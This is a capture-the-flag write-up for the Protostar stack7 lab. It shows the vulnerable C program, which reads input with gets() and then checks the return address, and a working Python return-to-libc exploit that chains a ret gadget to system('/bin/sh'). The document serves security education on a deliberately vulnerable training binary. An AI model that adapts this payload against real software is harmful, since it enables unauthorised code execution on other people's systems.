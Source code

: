 # Stack Seven

## Discription

Stack6 introduces return to .text to gain code execution.

The metasploit tool “msfelfscan” can make searching for suitable instructions very easy, otherwise looking through objdump output will suffice.

This level is at /opt/protostar/bin/stack7

## Source code

```cpp
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xb0000000) == 0xb0000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
  return strdup(buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

## Eploit code

```python
from struct import pack

payload =  "A"*80
payload += pack("I", 0x08048553)    # gadget: ret
payload += pack("I", 0xb7ecffb0)    # addr `system` from libc
payload += pack("I", 0)             # fake ret addr after call `system`
payload += pack("I", 0xb7fb63bf)    # ptr -> `/bin/sh\x00`: set first argument for `system`
print(payload)
```

Level passed!

<p algin="center">
    <img src="./done.png">
</p>